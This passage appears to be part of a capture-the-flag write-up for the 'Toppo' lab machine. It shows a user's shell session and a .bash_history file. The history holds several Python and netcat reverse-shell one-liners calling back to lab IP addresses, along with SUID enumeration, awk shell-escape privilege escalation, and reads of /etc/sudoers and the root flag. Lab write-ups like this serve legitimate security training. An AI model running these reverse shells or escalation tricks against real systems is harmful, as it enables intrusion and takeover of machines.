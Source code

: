 ### flag

```bash
ted@Toppo:~$ id
uid=1000(ted) gid=1000(ted) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
ted@Toppo:~$ ls -al
total 24
drwxr-xr-x 2 ted  ted  4096 Dec  3 09:19 .
drwxr-xr-x 3 root root 4096 Apr 15  2018 ..
-rw-r--r-- 1 ted  ted     0 Dec  3 09:33 a
-rw------- 1 ted  ted  2533 Dec  3 11:59 .bash_history
-rw-r--r-- 1 ted  ted   220 Apr 15  2018 .bash_logout
-rw-r--r-- 1 ted  ted  3515 Apr 15  2018 .bashrc
-rw-r--r-- 1 ted  ted   675 Apr 15  2018 .profile


ted@Toppo:~$ cat .bash_history

find / -perm -u=s -type f 2>/dev/null
mawk 'BEGIN {system("/bin/sh")}'
history
python2.7 -c 'import pty;pty.spawn("/bin/sh")'
whoami
sudo awk 'BEGIN {system("/bin/sh")}'
cd /usr/bin
awk 'BEGIN {system("/bin/sh")}'
/usr/bin/awk 'BEGIN {system("/bin/sh")}'
nc -e /bin/bash 192.168.5.136 6666
cd /bin
ls
ls
pwd
cd /root/
ls
sudo
su root
find / -perm -u=s -type f 2>/dev/null
/usr/bin/python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.129",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
ifconfig
ipconfig
sudo ifconfig
/usr/bin/python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.129",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
whoami
find / -perm -u=s -type f 2>/dev/null
/usr/bin/python2.7 -c import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.110.131",4444));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
/usr/bin/python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.136",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
cat /etc/sudoers
clear
cat /etc/sudoers
awk 'BEGIN {system("whoami")}'
awk 'BEGIN {system("find / -name flag.txt")}'
awk 'BEGIN {system("cat /root/flag.txt")}'
```